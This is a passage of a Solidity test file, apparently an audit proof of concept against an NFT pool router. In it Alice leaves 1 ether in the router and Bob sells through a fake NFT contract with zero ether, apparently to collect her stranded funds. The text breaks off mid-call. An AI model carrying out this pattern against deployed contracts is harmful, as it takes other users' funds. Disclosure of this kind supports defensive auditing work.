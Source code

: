 ```js
  

        totalTokens += 1;
        (uint256 baseTokenAmount, , ) = privatePool.buyQuote(
            tokenIds.length * 1e18
        );
        buys.push(
            EthRouter.Buy({
                pool: payable(address(privatePool)),
                nft: address(milady),
                tokenIds: tokenIds,
                tokenWeights: new uint256[](0),
                proof: PrivatePool.MerkleMultiProof(
                    new bytes32[](0),
                    new bool[](0)
                ),
                baseTokenAmount: baseTokenAmount,
                isPublicPool: false
            })
        );
    }

    function test_RefundsExcessEth() public {
        bytes32[][] memory publicPoolProofs = new bytes32[][](0);
        EthRouter.Sell memory sell1 = EthRouter.Sell({
            pool: payable(address(privatePool)),
            nft: address(fake),
            tokenIds: new uint256[](0),
            tokenWeights: new uint256[](0),
            proof: PrivatePool.MerkleMultiProof(
                new bytes32[](0),
                new bool[](0)
            ),

            stolenNftProofs: new IStolenNftOracle.Message[](0),
            isPublicPool: false,
            publicPoolProofs: publicPoolProofs
        });

        EthRouter.Sell[] memory sells = new EthRouter.Sell[](1);
        sells[0] = sell1;
 
        console.log(
            "Balance of this contract before :  %s ",
            address(this).balance

        );

        console.log(
            "Before Alice sends  1 ether to ETH router : %s  ",
            address(alice).balance

        );

        vm.startPrank(alice);
        address(ethRouter).call{value: 1 ether}("");
        vm.stopPrank();

        vm.prank(bob);
        fake.mint(address(privatePool), 0);
        console.log(
            "Bob call sell  function with 0 ether and a fake contract  : %s  ",
            address(alice).balance
```